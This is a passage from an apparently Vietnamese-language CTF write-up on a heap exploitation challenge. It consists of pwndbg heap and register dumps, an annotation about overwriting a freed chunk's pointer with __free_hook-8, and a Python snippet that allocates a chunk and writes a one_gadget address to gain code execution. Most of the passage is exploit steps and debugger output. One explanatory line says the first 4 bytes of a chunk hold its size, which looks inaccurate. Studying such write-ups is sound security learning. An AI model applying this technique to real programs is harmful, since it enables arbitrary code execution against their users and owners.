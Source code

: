                 0x555555559130: 0x0000000000000000      0x0000000000000000
                0x555555559140: 0x0000000000000000      0x0000000000000000
                0x555555559150: 0x0000000000000000      0x0000000000000000
                0x555555559160: 0x0000000000000000      0x0000000000000000
                0x555555559170: 0x0000000000000000      0x0000000000000000
                0x555555559180: 0x0000000000000000      0x0000000000000000   <- addr 0x210 [  1]: 0x5555555592c0 ◂— 0x0 is used
                0x555555559190: 0x0000000000000000      0x0000000000000000
                0x5555555591a0: 0x0000000000000000      0x0000000000000000
                0x5555555591b0: 0x0000000000000000      0x0000000000000000
                0x5555555591c0: 0x0000000000000000      0x0000000000000000
                0x5555555591d0: 0x0000000000000000      0x0000000000000000
                0x5555555591e0: 0x0000000000000000      0x0000000000000000
                0x5555555591f0: 0x0000000000000000      0x0000000000000000
                0x555555559200: 0x0000000000000000      0x0000000000000000
                0x555555559210: 0x0000000000000000      0x0000000000000000
                0x555555559220: 0x0000000000000000      0x0000000000000000
                0x555555559230: 0x0000000000000000      0x0000000000000000
                0x555555559240: 0x0000000000000000      0x00007ffff7fb5b20   <- overwrite with __free_hook-8
                0x555555559250: 0x0000000000000000      0x0000000000000000
                0x555555559260: 0x0000000000000000      0x0000000000000000
                0x555555559270: 0x0000000000000000      0x0000000000000000
                ```
                
            - Lí do phải về __free_hook-8 là vì khi malloc 1 chunk 4 bytes đầu được dùng để chứa size.
            - Malloc lại với size như trên ⇒ malloc vùng __free_hook-8.
                
                ```python
                *RAX  0x7ffff7fb5b20 (__after_morecore_hook) ◂— 0x0    <- sau khi call malloc
                 RBX  0x555555555720 (__libc_csu_init) ◂— endbr64
                *RCX  0x55555555907e ◂— 0x0
                *RDX  0x0
                 RDI  0x388
                *RSI  0x0
                *R8   0x7ffff7fb5b20 (__after_morecore_hook) ◂— 0x0
                 R9   0x0
                 R10  0x7ffff7f65ac0 (_nl_C_LC_CTYPE_toupper+512) ◂— 0x100000000
                 R11  0x0
                 R12  0x555555555180 (_start) ◂— endbr64
                 R13  0x7fffffffe130 ◂— 0x1
                 R14  0x0
                 R15  0x0
                 RBP  0x7fffffffe010 —▸ 0x7fffffffe040 ◂— 0x0
                 RSP  0x7fffffffdff0 —▸ 0x5555555592a0 ◂— 0xffffffffffffffff
                *RIP  0x5555555555fa (create_note+75) ◂— mov    qword ptr [rbp - 8], rax
                ───────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────
                   0x5555555555f5 <create_note+70>    call   malloc@plt <malloc@plt>
                 ► 0x5555555555fa <create_note+75>    mov    qword ptr [rbp - 8], rax <0x7ffff7fb5b20>
                
                ```
                
                ```python
                create(0x300) 
                payload = 'a'*4 
                payload += p64(one_gadget)
                edit(payload)
                ```
                